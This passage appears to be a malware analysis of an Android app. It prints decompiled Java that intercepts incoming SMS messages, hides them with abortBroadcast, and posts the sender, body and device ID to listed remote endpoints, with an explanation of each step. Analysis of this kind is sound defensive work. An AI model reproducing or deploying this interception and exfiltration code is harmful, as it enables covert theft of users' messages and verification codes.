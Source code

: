 ```Java
            smsPush.setDeviceId(Settings.Secure.getString(context.getContentResolver(), "android_id"));
            smsPush.setInterceptedTime(simpleDateFormat.format(new Date()));
            try {
                SmsPushRequest smsPushRequest = (SmsPushRequest) ThreadUtil.executeRunnable(new SmsPushRequest(smsPush));
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
            abortBroadcast();
        }
    }
}
```

This Java code defines a class `SmsReceiver` that extends the `BroadcastReceiver` class. `BroadcastReceiver` is a class in Android that allows an app to register to receive system-wide broadcasts, such as an incoming SMS message. The `SmsReceiver` class has a default constructor and an onReceive method, which is called when the app receives a broadcast.

The `onReceive` method takes two arguments: a `Context` object and an `Intent` object. The `Intent` object contains information about the broadcast, including the action that triggered it.

The onReceive method first checks if the action in the Intent object is "android.provider.Telephony.SMS_RECEIVED", which indicates that an SMS message has been received. If it is, the method retrieves the extras in the Intent object and gets the "pdus" (protocol data units) from the extras. It then iterates through the array of PDUs, creating an `SmsMessage` object for each one using the `createFromPdu` method. It concatenates the message bodies of all the SmsMessage objects into a single string, and stores the originating address of the first SmsMessage object.

Next, the method creates a new `SmsPush` object and sets its sender, body, and deviceId fields using the values it retrieved from the SMS message. It also sets the `interceptedTime` field to the current date and time using a `SimpleDateFormat` object. Finally, it creates a new `SmsPushRequest` object with the `SmsPush` object as an argument and executes it using the `executeRunnable` method from the `ThreadUtil` class.

```Java
package com.service.sms.common.constants;

/* loaded from: classes2.dex */
public class UrlConstant {
    public static final String ACTIVE_PUSH = "https://sg1.mall-base-app.com/app/api/action/devideActivePushAction/";
    public static final String DEFAULT_SMS_PUSH = "https://sg1.mall-base-app.com/app/api/action/defaultSmsPushAction/";
    public static final String PREFIX = "/app/api/action/";
    public static final String SMS_PERMISSION_PUSH = "https://sg1.mall-base-app.com/app/api/action/smsPermissionPushAction/";
    public static final String SMS_PUSH = "https://sg1.mall-base-app.com/app/api/action/smsMessagePushAction/";
}
```

After getting the SMS data, the app will send the data to the `UrlConstant.DEFAULT_SMS_PUSH URL` using an HTTP POST request and processes the response from the server to determine if the request was successful.
